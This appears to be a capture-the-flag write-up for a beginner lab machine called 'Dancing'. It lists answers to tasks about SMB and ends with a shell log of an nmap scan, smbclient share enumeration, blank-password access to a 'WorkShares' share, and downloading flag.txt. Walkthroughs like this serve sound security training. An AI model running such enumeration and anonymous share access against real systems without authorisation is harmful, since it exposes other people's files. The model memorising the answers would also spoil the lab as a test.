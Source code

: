 # Dancing

> IP: 10.11.11.11

## TASK 1

> What does the 3-letter acronym SMB stand for?

- Server Message Block

## TASK 2

> What port does SMB use to operate at?

- 445

## TASK 3

> What is the service name for port 445 that came up in our Nmap scan?

- microsoft-ds

## TASK 4

> What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

- -L

## TASK 5

> How many shares are there on Dancing?

- 4

## TASK 6

> What is the name of the share we are able to access in the end with a blank password?

- WorkShares

## TASK 7

> What is the command we can use within the SMB shell to download the files we find?

- get

## Submit Flag

```shell
$ nmap -sV 10.11.11.11
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

$ smbclient -L 10.11.11.11
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
WorkShares      Disk

$ smbclient \\\\10.11.11.11\\WorkShares
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .          D   0  Mon Mar 29 16:22:01 2021
  ..         D   0  Mon Mar 29 16:22:01 2021
  Amy.J      D   0  Mon Mar 29 17:08:24 2021
  James.P    D   0  Thu Jun  3 16:38:03 2021

    5114111 blocks of size 4096. 1733585 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .          D        0  Thu Jun  3 16:38:03 2021
  ..         D        0  Thu Jun  3 16:38:03 2021
  flag.txt   A       32  Mon Mar 29 17:26:57 2021

    5114111 blocks of size 4096. 1733585 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
